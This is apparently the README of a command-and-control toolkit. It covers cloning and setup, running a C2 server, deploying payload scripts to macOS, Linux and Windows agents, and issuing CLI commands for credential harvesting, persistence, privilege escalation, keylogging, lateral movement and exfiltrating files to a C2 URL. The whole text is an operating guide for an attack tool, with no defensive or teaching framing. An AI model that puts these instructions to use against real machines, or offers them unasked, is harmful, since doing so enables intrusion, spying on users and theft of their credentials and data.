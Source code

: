 Installation and Setup

Clone the Repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv source venv/bin/activate # On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh
    payloads/linux_payload.sh
    payloads/windows_payload.ps1

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli.py list-agents

Deploy Payload python cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli.py generate-report

Send a Specific Command python cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli.py send-command <agent_id> cred_harvest

Persistence python cli.py send-command <agent_id> persistence

Privilege Escalation python cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli.py send-command <agent_id> keylogging

Lateral Movement python cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
